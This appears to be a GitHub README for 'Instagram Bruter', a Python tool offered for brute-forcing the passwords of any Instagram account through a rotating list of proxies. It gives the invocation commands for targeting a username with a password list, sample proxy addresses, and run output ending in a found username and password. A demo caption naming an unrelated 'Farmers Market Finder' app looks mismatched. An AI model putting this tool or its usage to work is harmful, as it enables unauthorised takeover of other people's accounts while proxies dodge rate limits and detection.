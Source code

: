 # Instagram Bruter
This program will brute force any Instagram account you send it its way given a list of proxies.

# Proxies 
The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.

# Upload
Upload a list of proxies into the program. The proxy file must have a format of ip:port
proxies_list.txt
```
python.exe .../instagram.py -px .../proxies_list.txt
```
```
172.67.190.88:80
172.64.18.156:80
98.162.25.7:31653
98.178.72.21:10919
```

# Stats
This gives an insight into the health of the proxies in the database.
```
.../python.exe .../instagram.py --stats
```

# Usage
python instagram.py -u <username> -p <passlist>

# Run
[-] Wordlist: passlist.txt
[-] Username: sss.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True

# Stop
[-] Wordlist: passlist.txt
[-] Username: sss.1
[-] Password: sss.123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: sss.1
[+] Password: sss.123


# Demo
![Farmers Market Finder - Animated gif demo](document/2024-05-05_14-47-34.gif)


